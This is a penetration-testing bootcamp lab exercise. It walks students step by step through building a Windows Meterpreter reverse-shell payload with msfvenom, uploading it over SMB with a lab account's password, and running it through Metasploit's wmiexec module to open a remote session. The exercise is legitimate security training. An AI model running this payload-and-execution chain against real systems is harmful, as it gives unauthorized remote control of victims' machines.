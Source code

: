 ## Activity File: msfvenom

In this activity, you will create a custom payload with `msfvenom`, transfer it to the designated host, and then run it with WMI.  

⚠️ **Reminder** - Don't forget to save your findings, as you will add them to your week 17 Homework!


### Instructions

1. Make sure you're in your home directory and then generate a Windows Meterpreter payload using the following commands:

    - `cd ~`

    - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.22.117.100 LPORT=4444 -f exe > shell.exe`

    ![A screenshot depicts the results of the commands.](../../Images/msfvenom.PNG)

2. Next, use SMBClient in Kali to interact with the Windows machine's file system over SMB. To connect to the remote filesystem, type: `smbclient //172.22.117.20/C$ -U megacorpone/tstark`

    - This connects to the `C` drive on the remote machine as the user tstark. 

3. You will then be asked for a password. Input tstark's password: `Password!`

4. List the files in the current directory using the following command:

    - `ls`

    ![A screenshot depicts the results of the command.](../../Images/smbclient.PNG)

5. Upload your payload via the following command:

    - `put shell.exe`

    ![A screenshot depicts the results of the command.](../../Images/put.png)

    - Now that the payload is on the remote system, we can execute it using the WMI module in Metasploit. Before doing that, though, we need to ensure that Metasploit is listening for our payload to execute.

6. In Metasploit, select the `exploit/multi/handler` module, and configure it to match the payload settings by using the following commands:

    - `use exploit/multi/handler`

    - `set payload windows/meterpreter/reverse_tcp`

    - `set LHOST [IP ADDRESS]`

    - `set LPORT 4444`

    - `exploit -j`

    ![A screenshot depicts running these commands.](../../Images/multihandler.PNG)

    - **Note**: The `-j` argument in `exploit -j` means to run in the background. This ensures that our listener is constantly listening and we can use Metasploit with it listening in the background.

7. Now, switch to the WMI module.

    - `use scanner/smb/impacket/wmiexec`

8. Fill in the SMBPass, SMBUser, SMBDomain, and RHOSTS parameters, if not done already.
 
9. For COMMAND, put in the path of the payload that you uploaded on the remote machine. If you did not change directories when uploading via SMBClient, then the payload will be located in `C:\`.

    - `set COMMAND C:\shell.exe`

    ![A screenshot depicts the parameters all correctly set.](../../Images/parameters.PNG)

10. Run the module with the command `run`. The message "Meterpreter session 1 opened" should appear, as the following image shows:

    ![A screenshot depicts the results of the command.](../../Images/sessions.PNG)

    - **Note**: After the message appears, the exploit will seem to "hang." You can safely use Ctrl + C once to exit the prompt. Your session will still be opened.

11. To view active sessions, type `sessions` and select the session based on the ID via the following command:

     - `sessions -i [session ID]`

    ![A screenshot depicts the results of the command.](../../Images/sessionid.PNG)

Congratulations! You successfully created, transferred, and executed a custom payload on a Windows machine.

---
© 2023 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.



